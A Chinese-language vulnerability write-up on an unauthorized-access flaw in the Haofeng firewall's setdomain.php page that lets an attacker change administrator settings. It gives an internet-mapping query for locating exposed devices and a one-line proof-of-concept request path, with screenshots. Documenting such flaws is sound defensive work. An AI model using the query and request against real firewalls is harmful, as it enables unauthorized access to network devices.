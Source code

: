 # 皓峰防火墙 setdomain.php 越权访问漏洞

## 漏洞描述

皓峰防火墙 setdomain.php 页面存在越权访问漏洞，攻击者通过漏洞可修改管理员等配置信息

## 漏洞影响

<a-checkbox checked>皓峰防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="皓峰防火墙系统登录"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628674369654-1d15b168-135b-408c-8ded-1006c68641c3.png)

验证POC

```php
/setdomain.php?action=list
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628674436226-bfc169f9-a2c1-4e15-9704-0ade0de81ab2.png)



若有收获，就点个赞吧